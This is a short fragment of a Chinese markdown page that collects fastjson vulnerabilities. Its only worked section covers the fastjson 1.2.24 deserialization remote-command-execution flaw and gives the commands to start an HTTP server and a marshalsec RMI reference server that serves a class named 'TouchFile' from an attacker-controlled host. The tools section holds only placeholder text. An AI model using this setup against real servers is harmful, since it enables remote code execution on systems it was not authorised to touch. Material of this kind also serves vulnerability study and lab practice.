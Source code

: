 # fastjson漏洞大全
[TOC]

## 涉及组件工具
123
123

## fastjson 1.2.24 反序列化导致任意命令执行漏洞

python3 -m http.server 8000
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.43.197:8000/#TouchFile 9999


![](assets/101/20210419-5b16d80a.png)  
